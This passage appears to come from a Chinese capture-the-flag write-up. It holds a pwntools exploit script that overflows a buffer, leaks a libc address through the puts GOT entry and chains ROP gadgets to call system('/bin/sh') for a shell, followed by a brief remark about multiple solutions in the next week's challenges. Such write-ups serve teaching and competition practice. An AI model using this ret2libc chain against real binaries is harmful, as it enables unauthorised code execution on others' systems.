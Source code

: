 ```python
def debug(cmd=''):
    gdb.attach(p,cmd)

# info
# gadget
prdi = 0x0000000000400753 # pop rdi ; ret
ppr = 0x0000000000400750 # pop r14 ; pop r15 ; ret

# elf, libc
puts_got = elf.got['puts']
puts_plt = elf.symbols['puts']
main = elf.symbols['main']

# rop1
offset = 88
payload = 'A'*offset
payload += p64(prdi) + p64(puts_got) + p64(puts_plt) + p64(main)

ru('./flag\n')
# debug()
sl(payload)

puts = u64(rc(6).ljust(8,'\0'))
info_addr('puts',puts)
libc_base = puts - libc.symbols['puts']
system = libc.symbols['system'] + libc_base
binsh = libc.search('/bin/sh').next() + libc_base
info_addr('system', system)
info_addr('binsh', binsh)

# rop2
payload2 = 'B'*offset
payload2 += p64(ppr) + p64(0)*2
payload2 += p64(prdi) + p64(binsh) + p64(system) + p64(main)
ru('./flag\n')
# debug()
sl(payload2)

# info_addr('tag',addr)
# log.warning('--------------')

p.interactive()
```



## Week2

week2就有意思多了，各种预期解法和非预期解法都有...

Pwn本该这样，不该只有一种解法，思路灵活些总是没错的...
